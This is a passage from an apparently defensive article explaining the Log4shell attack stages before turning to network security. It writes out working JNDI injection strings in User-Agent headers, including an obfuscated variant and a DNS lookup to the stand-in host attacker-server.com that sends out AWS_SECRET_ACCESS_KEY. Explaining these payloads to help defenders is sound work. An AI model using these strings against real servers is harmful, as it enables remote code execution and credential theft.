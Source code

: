 ### Log4shell Attack Stages
Log4shell is a multi-stage attack whereby an attacker sends an initial HTTP request to a web server (stage 1) and if affected, the web server performs the JNDI lookup by referencing a server the the attacker controls to download malicious code (stage 2), and then executes the malicious code (stage 3).

> User-Agent strings will be the primary examples in this article, but keep in mind that a JNDI string associated with any header or content that is logged by log4j can trigger the second phase of the attack. I also use an example destination of 127.0.0.1 but in reality this would be any IP address or hostname under the attackers control.

An example of a malicious string in the HTTP request would be setting an HTTP header such as the user-agent, to a string such as a basic example of:
```
"User-Agent: ${jndi:ldap://127.0.0.1/a}"
```

JNDI strings in HTTP requests can be far more complex, such as:
```
"User-Agent: ${${env:FOOBAR:-j}ndi:${env:FOOBAR:-l}dap${env:FOOBAR:-:}//127.0.0.1/a}"
```

This initial HTTP request isn't malicious on its own. Instead, it triggers an affected web server to place an LDAP request to an attacker controlled LDAP server on the internet. The attackers LDAP server then responds with a malicious payload which the server then executes. This could then open a backdoor for the attacker to load a more comprehensive and destructive payload to the server allowing an attacker to further surveil your network, identifying other vulnerable servers, allowing an attacker to gain a larger footprint in your environment.

The other aspect, which is more difficult to control (as described in the Prevention Measures section below), is a JNDI string that uses DNS instead of LDAP. An example of such a string is:
```
"User-Agent: ${jndi:dns://${env:AWS_SECRET_ACCESS_KEY}.attacker-server.com}"
```

In this particular example an attacker sends a JNDI string that causes an affected web server to append an environment variable as a sub-domain to a DNS query directed at a domain/DNS server controlled by the attacker (attacker-server.com). While this doesn't cause a vulnerable server to execute malicious code, it does signify to an attacker that a server is vulnerable and allows for exfiltration of sensitive information. Of course the environment variable actually needs to exist, but it would be easy for an attacker to send a series of HTTP requests with common environment variable names in the hopes of getting some information. Additionally, an attacker could append another sub-domain as an ID specific to the web server they are attacking, to help them keep track of which particular server was vulnerable and any environment variables related to it.

## The Importance of Network Security
### The Unique Position of Network Devices
Before a web request is received by a web server, the request is most likely going to flow through multiple network devices (e.g. routers, switches, firewalls, load balancers) managed by the organization. Even if you are in a cloud environment such as AWS, Azure, or GCP, you have the ability to place your own virtual network devices (e.g. virtual firewalls or routers), or use one of the cloud vendors native network components.
